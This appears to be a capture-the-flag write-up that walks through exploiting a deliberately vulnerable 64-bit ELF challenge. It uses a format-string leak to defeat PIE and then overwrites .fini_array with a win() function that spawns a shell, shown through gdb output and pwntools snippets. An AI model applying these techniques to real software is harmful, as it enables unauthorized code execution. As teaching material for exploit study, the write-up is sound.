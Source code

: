 ```yaml
---
title: "CTF@AC 2025 – fini: Hijacking .fini_array for a shell"
date: 2025-09-14
---
```


> *Hope you can FINIsh this challenge.*

```bash
$ file ./challenge | tr ',' '\n'
./challenge: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=4293e516c8a744cddc10088c31128d37fd365557
 for GNU/Linux 3.2.0
 not stripped

$ pwn checksec ./challenge
[*] '/home/kali/Desktop/ctfs/others/fini/challenge'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

$ ./challenge 
=== FINIsh this challenge ;) ===
What's your name?
z0v3r1n
Hello, z0v3r1n
!
1) write
2) exit
> 1
Addr (hex): 1234
Value (hex, 8 bytes): abc
zsh: segmentation fault  ./challenge
```

Looking at the defined functions we find a `win()` function:

```
pwndbg> info func                                  
All defined functions:

Non-debugging symbols:                             
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  system@plt
0x0000000000001050  printf@plt
0x0000000000001060  fgets@plt                      
0x0000000000001070  setvbuf@plt                    
0x0000000000001080  __isoc99_scanf@plt
0x0000000000001090  exit@plt
0x00000000000010a0  __cxa_finalize@plt
0x00000000000010b0  main
0x0000000000001290  _start
0x00000000000012c0  deregister_tm_clones
0x00000000000012f0  register_tm_clones
0x0000000000001330  __do_global_dtors_aux
0x0000000000001370  frame_dummy
0x0000000000001380  win
0x000000000000138c  _fini

pwndbg> disas win
Dump of assembler code for function win:
   0x0000000000001380 <+0>:     lea    rdi,[rip+0xc7d]        # 0x2004
   0x0000000000001387 <+7>:     jmp    0x1040 <system@plt>
End of assembler dump.

pwndbg> x/s 0x2004   
0x2004: "/bin/sh" 
```

Looking at the implementation of the greeting in the `main()` function we can see that the program prints our name unsafely i.e. without any format specifiers giving rise to fmt-string vulnerability.

```c
  puts("=== FINIsh this challenge ;) ===");
  puts("What\'s your name?");
  fgets((char *)name,0x80,stdin);
  printf("Hello, ");
  printf((char *)name);
```

We can confirm the fmt-string vulnerability by inputting a fmt-string:

```shell
$ ./challenge        
=== FINIsh this challenge ;) ===
What's your name?
%x.%x
Hello, 341636c0.0
!
1) write
2) exit
> ^C
```

We can use this fmt-string vulnerability to leak a PIE addr using which we can bypass ASLR.

```
$ gdb -q ./challenge
...SNIP...
pwndbg> disas main
```

![](https://github.com/user-attachments/assets/bdb321d0-f439-42ca-bf25-c6e28b3168d7)

Breaking after the `fgets()` call to analyze the memory around our input:

```shell
pwndbg> b *main+146
Breakpoint 1 at 0x1142
pwndbg> r
...SNIP...
=== FINIsh this challenge ;) ===
What\'s your name?
AAAAAAAA

Breakpoint 1, 0x0000555555555142 in main ()
...SNIP...
pwndbg> search AAAAAAAA stack
Searching for byte: b'AAAAAAAA'
[stack]         0x7fffffffdc00 'AAAAAAAA\n'

pwndbg> vmmap
...SNIP...
►   0x555555554000     0x555555555000 r--p     1000       0 challenge
►   0x555555555000     0x555555556000 r-xp     1000    1000 challenge
►   0x555555556000     0x555555557000 r--p     1000    2000 challenge
►   0x555555557000     0x555555558000 rw-p     1000    2000 challenge
...SNIP
    
pwndbg> dq 0x7fffffffdc00 30
00007fffffffdc00     4141414141414141 000000000000000a
00007fffffffdc10     0000000000040000 ffffffffffffffff
00007fffffffdc20     0000000000000040 0000000000000004
00007fffffffdc30     0000000000008000 0000000000000000
00007fffffffdc40     0000008e00000006 0000000000000000
00007fffffffdc50     0000000000000000 0000000000000000
00007fffffffdc60     0000000000000000 0000000000000000
00007fffffffdc70     0000000000000000 0000000000000000
00007fffffffdc80     00007fffffffddb8 0000000000000001
00007fffffffdc90     0000000000000000 00007fffffffddc8
00007fffffffdca0     00007ffff7ffd000 00007ffff7dd9ca8
00007fffffffdcb0     00007fffffffdda0 00005555555550b0
00007fffffffdcc0     0000000155554040 00007fffffffddb8
00007fffffffdcd0     00007fffffffddb8 6a511514e74da407
00007fffffffdce0     0000000000000000 00007fffffffddc8

pwndbg> p (0x00007fffffffdcb0-0x00007fffffffdc00)/8 + 9
$3 = 31
```

Leaking the PIE address using the fmt-string vulnerability:

```
$ ./challenge
=== FINIsh this challenge ;) ===
What's your name?
%31$lx
Hello, 55ca370b20b0
!
1) write
2) exit
> ^C
```

We can calculate the PIE base by substracting the offset:

```python
io.sendlineafter(b"?", b"%31$lx")
io.recvuntil(b", ")
pieBase = int(io.recvline().strip(), 16) - 0x10b0
log.success(f"pieBase: {hex(pieBase)}")
```

![](https://github.com/user-attachments/assets/15e61dd5-be72-42a3-b61d-f5e7e58cc405)

Now as the name of the challenge is **fini** which points us to the `.fini_array` which contains an array of functions which are executed sometime after main returns.

```
pwndbg> info file
		...SNIP...
        0x00000000000031c8 - 0x00000000000031d0 is .fini_array
		...SNIP...
```

We can overwrite this to the address of `win()` function so, when the main returns and the `.fini_array` function entries are executed our `win()` function spawns a shell.

Setting up the overwrite:

```python
FINI_ARRAY = pieBase + 0x31c8
WIN_ADDR   = pieBase + 0x1380

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"(hex): ", hex(FINI_ARRAY).encode())
io.sendlineafter(b"(hex, 8 bytes): ", hex(WIN_ADDR).encode())
```

We can confirm the overwrite in `gdb`:

```
pwndbg> info file
		...SNIP...
        0x000055e8d60221c8 - 0x000055e8d60221d0 is .fini_array
		...SNIP...

pwndbg> p win
$1 = {<text variable, no debug info>} 0x55e8d6020380 <win>

pwndbg> x/gx 0x000055e8d60221c8
0x55e8d60221c8: 0x000055e8d6020380
```

Now, as we have overwritten the `.fini_array[0]` when we exit our `win()` function will be executed which will spawn a shell.

```python
io.sendlineafter(b"> ", b"2")
io.interactive()
```

![](https://github.com/user-attachments/assets/98e5bc85-b0b8-4da0-8058-988922b34fc1)

You can find the full exploit script [here](https://raw.githubusercontent.com/z0v3r1n/z0v3r1n.github.io/main/content/posts/ctf_ac_fini/exploit.py).

